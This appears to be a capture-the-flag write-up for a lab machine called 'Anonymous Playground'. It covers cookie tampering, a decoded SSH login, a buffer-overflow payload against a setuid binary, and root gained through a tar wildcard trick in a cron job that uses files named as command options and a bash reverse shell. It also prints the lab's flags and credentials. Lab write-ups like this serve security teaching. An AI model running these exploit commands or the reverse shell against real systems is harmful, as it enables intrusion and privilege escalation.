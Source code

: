 # ANONYMOUS PLAYGROUND

## FLAG 1
1 disallowed entry on robots.txt. Check it out and say access denied. Change cookie `access` to `granted`.

Then a weird line of string was given. After decrypting with [this program](decrypt.py), a username and password was shown.
```
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
tips: zA = a
z = 26
A = 1

(26 + 1) % 26 = 1 = a

magna:magnaisanelephant
```

After ssh into the machine with the credentials, we got the first flag.
```
flag1 = 9184177ecaa83073cbbf36f1414cc029
```

## FLAG 2
In the home drectory of magna, there is a binary call hacktheworld. This binary also has a setuid bit set. After downloading it, I open it using ghidra. The vulnerable part in the code is the `gets()` function which is vulnerable towards buffer overflow. There is also a `call_bash` function which set the uid after some command and call bash. So I just need to exploit this and we should be able to proceed to the next user.

After a few tries, 72 'A's is the perfect sie for overflowing the buffer. Then the address of the `call_bash` function, which I got from running `readelf -s ./hacktheworld | grep -i call_bash`, was appended to the payload. Notice that there is a `cat` command after the printing with python. This is to prevent the shell from closing immediately due to no input was provided.
```
(python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")'; cat) | ./hacktheworld
```

Running the command above, we're now in as spooky. Navigate to his home directory and the second flag is there.
```
flag2 = 69ee352fb139c9d0699f6f399b63d9d7
```

## FLAG 3
Now onto the road of rooting the machine. Checking on the `/etc/crontab`, we see that there is a command `cd /home/spooky && tar -zcf /var/backups/spooky.tgz *`, which is run by root every minute. This is a well known exploit of tar, the wildcard exploit! 

```
echo 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' > shell.sh
echo "" > '--checkpoint-action=exec=sh shell.sh'
echo "" > '--checkpoint=1'
``` 

After the above command, we set up a listener on our machine and wait for incoming connections. After awhile, we're in as root. Navigate to `/root` to retrieve the last flag.
```
flag3 = bc55a426e98deb673beabda50f24ce66
```